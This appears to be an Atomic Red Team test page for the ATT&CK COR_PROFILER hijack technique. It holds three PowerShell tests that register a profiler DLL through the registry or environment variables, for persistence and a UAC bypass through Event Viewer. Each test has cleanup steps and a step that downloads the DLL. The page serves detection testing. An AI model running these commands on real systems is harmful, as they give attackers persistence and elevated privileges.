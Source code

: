 # T1574.012 - Hijack Execution Flow: COR_PROFILER

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/012)

<blockquote>Adversaries may leverage the COR_PROFILER environment variable to hijack the execution flow of programs that load the .NET CLR. The COR_PROFILER is a .NET Framework feature which allows developers to specify an unmanaged (or external of .NET) profiling DLL to be loaded into each .NET process that loads the Common Language Runtime (CLR). These profilers are designed to monitor, troubleshoot, and debug managed code executed by the .NET CLR.(Citation: Microsoft Profiling Mar 2017)(Citation: Microsoft COR_PROFILER Feb 2013)

The COR_PROFILER environment variable can be set at various scopes (system, user, or process) resulting in different levels of influence. System and user-wide environment variable scopes are specified in the Registry, where a [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM) object can be registered as a profiler DLL. A process scope COR_PROFILER can also be created in-memory without modifying the Registry. Starting with .NET Framework 4, the profiling DLL does not need to be registered as long as the location of the DLL is specified in the COR_PROFILER_PATH environment variable.(Citation: Microsoft COR_PROFILER Feb 2013)

Adversaries may abuse COR_PROFILER to establish persistence that executes a malicious DLL in the context of all .NET processes every time the CLR is invoked. The COR_PROFILER can also be used to elevate privileges (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)) if the victim .NET process executes at a higher permission level, as well as to hook and [Impair Defenses](https://attack.mitre.org/techniques/T1562) provided by .NET processes.(Citation: RedCanary Mockingbird May 2020)(Citation: Red Canary COR_PROFILER May 2020)(Citation: Almond COR_PROFILER Apr 2019)(Citation: GitHub OmerYa Invisi-Shell)(Citation: subTee .NET Profilers May 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - User scope COR_PROFILER](#atomic-test-1---user-scope-cor_profiler)

- [Atomic Test #2 - System Scope COR_PROFILER](#atomic-test-2---system-scope-cor_profiler)

- [Atomic Test #3 - Registry-free process scope COR_PROFILER](#atomic-test-3---registry-free-process-scope-cor_profiler)

<br/>

## Atomic Test #1 - User scope COR_PROFILER

Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows

**auto_generated_guid:** 9d5f89dc-c3a5-4f8a-a4fc-a6ed02e7cb5a

#### Inputs:

| Name       | Description            | Type   | Default Value                                                  |
| ---------- | ---------------------- | ------ | -------------------------------------------------------------- |
| file_name  | unmanaged profiler DLL | path   | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll |
| clsid_guid | custom clsid guid      | string | {09108e71-974c-4010-89cb-acf471ae9e2c}                         |

#### Attack Commands: Run with `powershell`!

```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value "#{file_name}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:

```powershell
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force -ErrorAction Ignore
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```

#### Dependencies: Run with `powershell`!

##### Description: "#{file_name}" must be present

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```

<br/>
<br/>

## Atomic Test #2 - System Scope COR_PROFILER

Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (T1574.012x64.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows

**auto_generated_guid:** f373b482-48c8-4ce4-85ed-d40c8b3f7310

#### Inputs:

| Name       | Description            | Type   | Default Value                                                  |
| ---------- | ---------------------- | ------ | -------------------------------------------------------------- |
| file_name  | unmanaged profiler DLL | path   | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll |
| clsid_guid | custom clsid guid      | string | {09108e71-974c-4010-89cb-acf471ae9e2c}                         |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```

#### Dependencies: Run with `powershell`!

##### Description: "#{file_name}" must be present

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```

<br/>
<br/>

## Atomic Test #3 - Registry-free process scope COR_PROFILER

Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by PowerShell.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows

**auto_generated_guid:** 79d57242-bbef-41db-b301-9d01d9f6e817

#### Inputs:

| Name       | Description            | Type   | Default Value                                                  |
| ---------- | ---------------------- | ------ | -------------------------------------------------------------- |
| file_name  | unamanged profiler DLL | path   | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll |
| clsid_guid | custom clsid guid      | string | {09108e71-974c-4010-89cb-acf471ae9e2c}                         |

#### Attack Commands: Run with `powershell`!

```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '"#{file_name}"'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:

```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```

#### Dependencies: Run with `powershell`!

##### Description: "#{file_name}" must be present

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```

<br/>
